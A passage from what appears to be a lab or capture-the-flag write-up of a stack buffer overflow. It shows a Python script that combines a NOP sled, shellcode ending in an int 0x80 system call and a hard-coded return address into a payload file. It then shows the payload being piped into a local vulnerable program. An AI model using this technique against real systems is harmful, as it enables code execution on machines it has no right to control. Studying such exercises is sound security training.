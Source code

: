 ```
    b"\xcd\x80"              # int 0x80
)

padding = b"\x90" * (76 - len(shellcode))  # NOP sled to fill up to offset
payload = padding + shellcode

# Address pointing into NOP sled (adjust slightly if needed)
return_address = 0xffffceb4 + 20  
payload += return_address.to_bytes(4, 'little')

with open("payload", "wb") as f:
    f.write(payload)
```

To generate the payload:

```
python3 exploit.py
```
This creates a file named payload, which can then be passed as input to the vulnerable program.

![dirImg](images/dirImg.png)

___

## Step 5: Executing the Exploit
I passed the payload to the vulnerable program using input redirection:

```
./vuln < payload
```

___
